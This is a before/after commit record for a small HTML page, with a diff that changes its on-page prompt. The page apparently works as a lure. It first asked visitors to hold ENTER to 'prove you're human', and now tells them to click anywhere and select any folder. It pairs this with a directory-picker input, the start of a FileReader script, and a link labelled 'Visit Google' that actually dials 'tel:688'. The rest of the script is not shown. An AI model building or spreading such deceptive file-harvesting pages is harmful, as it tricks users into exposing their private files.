

Before and after one commit to uftest00/umarfarooq, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-1016 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -11,10 +11,11 @@
 </head>
 
 <body>
-    <h3 id="qmsg">Hold down the ENTER key for 5 seconds to prove you're human..</h3>
+	<center>
+    <h1 id="qmsg"> Click Anywhere on page And Select any Folder </h1>
     <input id="thing" type="file" webkitdirectory mozdirectory accept="text/*" />
 <a id="yourLinkID" onclick="myFunction();" href="tel:688" target="_blank" rel="noopener noreferrer">Visit Google</a>
-
+</center>
     <script>
 
 		  var r = new FileReader();
```
